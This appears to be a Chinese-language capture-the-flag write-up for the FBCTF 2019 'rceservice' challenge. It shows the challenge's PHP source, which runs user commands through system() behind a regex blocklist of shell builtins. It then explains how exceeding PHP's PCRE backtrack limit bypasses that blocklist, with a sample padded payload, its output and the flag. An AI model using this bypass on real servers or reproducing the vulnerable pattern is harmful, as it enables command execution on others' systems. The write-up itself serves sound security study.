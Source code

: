 # rceservice

Solved: 31

<br>

```php
<?php

putenv('PATH=/home/rceservice/jail');

if (isset($_REQUEST['cmd'])) {
  $json = $_REQUEST['cmd'];

  if (!is_string($json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } elseif (preg_match('/^.*(alias|bg|bind|break|builtin|case|cd|command|compgen|complete|continue|declare|dirs|disown|echo|enable|eval|exec|exit|export|fc|fg|getopts|hash|help|history|if|jobs|kill|let|local|logout|popd|printf|pushd|pwd|read|readonly|return|set|shift|shopt|source|suspend|test|times|trap|type|typeset|ulimit|umask|unalias|unset|until|wait|while|[\x00-\x1FA-Z0-9!#-\/;-@\[-`|~\x7F]+).*$/', $json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } else {
    echo 'Attempting to run command:<br/>';
    $cmd = json_decode($json, true)['cmd'];
    if ($cmd !== NULL) {
      system($cmd);
    } else {
      echo 'Invalid input';
    }
    echo '<br/><br/>';
  }
}

?>
```

這題題目很短，用`preg_match`擋了一堆東西

但我們知道PHP有`pcre.backtrack_limit`限制，預設情況下，當回溯超過`1000000`次時，會回傳 `false`

(https://www.php.net/manual/en/pcre.configuration.php)

![](https://github.com/w181496/CTF/blob/master/fbctf2019/rceservice/pcre.png)

上圖紅底字就代表發生回溯 ([regex101](https://regex101.com/) is your good friend)

Example:

```
php > var_dump(preg_match("/union.+select/is", "union select /*".str_repeat("s", 1000000)));
bool(false)
php > var_dump(preg_match("/union.+select/is", "union select /*".str_repeat("s", 1)));
int(1)
```

這在一般弱比較(Weak typing)情形下等同匹配成功

(`false == 0` => `true`)

但這邊其實不用管弱比較，因為他直接把`preg_match`回傳值丟進`if`做判斷

所以當回溯超過上限時，回傳`false`，自動就會略過這個`if`，進入到`else`裡面

e.g.

`'{"cmd":"ls -al /home/rceservice/","zz":"' + "a"*(1000000) + '"}'`

=>

```
drwxr-xr-x 1 root root       4096 May 26 21:20 ..
-r--r--r-- 1 root rceservice   43 May 23 03:58 flag
dr-xr-xr-x 1 root rceservice 4096 May 26 21:20 jail
```

Bypass successfully!


詳細 payload 見[exp.py](https://github.com/w181496/CTF/blob/master/fbctf2019/rceservice/exp.py)

flag: `fb{pr3g_M@tcH_m@K3s_m3_w@Nt_t0_cry!!1!!1!}`
